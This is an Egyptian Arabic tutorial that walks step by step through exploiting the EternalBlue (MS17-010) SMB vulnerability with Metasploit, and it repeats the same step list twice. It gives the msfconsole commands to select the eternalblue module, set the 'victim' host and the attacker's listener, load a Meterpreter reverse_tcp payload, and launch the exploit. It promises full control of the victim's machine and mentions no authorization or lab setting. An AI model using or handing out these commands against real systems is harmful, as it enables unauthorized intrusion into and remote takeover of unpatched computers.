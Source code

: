 # **استغلال الثغرات المعروفة زي EternalBlue (MS17-010) – ببساطة!**

## **📌 يعني إيه استغلال الثغرات المعروفة؟**

فيه ثغرات مشهورة جدًا بتتصنف تحت **الثغرات الحرجة (Critical Vulnerabilities)**، وبتكون **معروفة ومتاحة للعامة**، بمعنى إن أي حد يقدر يستغلها لو فهمها كويس.

💡 **EternalBlue (MS17-010)** واحدة من أخطر الثغرات المعروفة، واستخدمها هجوم **WannaCry** الشهير اللي ضرب آلاف الأجهزة في 2017. الثغرة بتستغل خطأ في **بروتوكول SMB** اللي بيستخدم في مشاركة الملفات بين الأجهزة على الشبكة.

---

## **🔥 خطوات استغلال ثغرة EternalBlue (MS17-010) في Metasploit**

### **🟢 1. تشغيل Metasploit Console**

📌 افتح الـ Metasploit بالأمر:

```bash
msfconsole
```

---

### **🟢 2. البحث عن الاستغلال المناسب**

📌 دور على استغلال الثغرة باستخدام:

```bash
search ms17_010
```

🔹 هيظهر لك الاستغلال المطلوب، غالبًا هيكون بالشكل ده:

```bash
exploit/windows/smb/ms17_010_eternalblue
```

---

### **🟢 3. اختيار استغلال EternalBlue**

📌 استخدم الاستغلال كده:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

---

### **🟢 4. ضبط الإعدادات (Set Options)**

📌 لازم تضبط **IP الضحية وIP جهازك** كالتالي:

```bash
set RHOSTS 192.168.1.100   # IP الضحية
set LHOST 192.168.1.50     # جهازك اللي هياخد الاتصال العكسي
set LPORT 4444             # البورت المستخدم
```

---

### **🟢 5. اختيار الـ Payload المناسب**

📌 ده الكود اللي هيتنفذ بعد الاختراق، هنستخدم **Meterpreter**:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

---

### **🟢 6. تنفيذ الاستغلال! 🚀**

📌 شغل الاستغلال بالأمر ده:

```bash
exploit
```

🔹 **لو الثغرة نجحت، هيجيلك Session Meterpreter وتقدر تتحكم في جهاز الضحية بالكامل!** 🔥

---

## **💡 الخلاصة بالمصري:**

1️⃣ **الثغرات المعروفة زي EternalBlue (MS17-010) بتسمح لك تخترق الأجهزة بسهولة لو مش محدثة.**  
2️⃣ **Metasploit عنده استغلال جاهز للثغرة، فمش هتحتاج تكتب كود من الصفر.**  
3️⃣ **بتحدد الضحية (`set RHOSTS`) والجهاز اللي هيستقبل الاتصال العكسي (`set LHOST`).**  
4️⃣ **بتستخدم Payload زي Meterpreter عشان تتحكم في الجهاز بعد نجاح الاختراق.**  
5️⃣ **بتنفذ الهجوم بـ `exploit`، ولو الجهاز غير محمي، هتدخل عليه مباشرة!**

---

## **🛠️ الخطوات العملية لاستغلال EternalBlue في Metasploit**

✅ **1. تشغيل Metasploit:**

```bash
msfconsole
```

✅ **2. البحث عن الاستغلال:**

```bash
search ms17_010
```

✅ **3. اختيار الاستغلال المناسب:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

✅ **4. ضبط إعدادات الهدف:**

```bash
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
set LPORT 4444
```

✅ **5. اختيار الـ Payload:**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

✅ **6. تنفيذ الاستغلال:**

```bash
exploit
```

🎯 **لو الجهاز مستهدف مصاب بالثغرة، هتدخل عليه مباشرة وتتحكم فيه!** 🔥